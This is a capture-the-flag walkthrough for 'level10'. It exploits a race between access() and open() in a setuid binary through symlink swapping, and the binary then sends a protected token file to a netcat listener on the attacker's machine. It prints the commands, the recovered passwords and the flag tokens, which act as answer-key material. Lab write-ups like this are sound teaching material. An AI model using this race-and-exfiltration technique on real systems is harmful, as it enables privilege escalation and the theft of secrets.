 # LEVEL 10

In our home directory, we have one suid/guid executable, and one token file:
```
>$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

If we run the executable, we see that it expects a file, to send it to the host:
```
>$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Using strings command on the executable:
```
>$ strings level10
[..]
[^_]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[..]
```
In a second terminal (in our local machine) let's use **Netcat** to listen on this port (6969):
```
➜ nc 6969 -l
```
Back in the first terminal (VM machine), if we create a file and send it to local machine, it arrives in the second terminal (local one listening to port):
```
>$ echo "hi" > /tmp/hi
>$ ./level10 /tmp/hi {LOCAL_LAN_IPv4_ADDRESS}
Connecting to {LOCAL_LAN_IPv4_ADDRESS}:6969 .. Connected!
Sending file .. wrote file!
```

To access the token, we find a potential weakness in the binary's use of `access`:
```
>$ nm -u level10
	U access@@GLIBC_2.0
```
reading man of access() we found:
```
Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
	before actually doing so using open(2) creates a security hole, because  the  user  might
	exploit  the  short time interval between checking and opening the file to manipulate it.
```

We open the token through a symbolic link created with another file in our HOME. which means we automate the process of creating the symbolic link and calling `./level10` with `while` in our shell:
```
>$ chmod 777 . && touch test
>$ (while true; do ln -sf test tmp; ln -sf token tmp; done)&
>$ while true; do ./level10 tmp {LOCAL_LAN_IPv4_ADDRESS}; done
```
Then when we listen:
```
➜ nc 6969 -l
woupa2yuojeeaaed06riuj63c
```
```
>$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
>$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

this token is also the password for user flag11:
```
>$ su flag11
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
>$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

#### Vulnerability:
Race hazard with sequenced call to an access and open -> Privilege escalation via symlink attack

#### Documentations:
* https://stackoverflow.com/questions/7925177/access-security-hole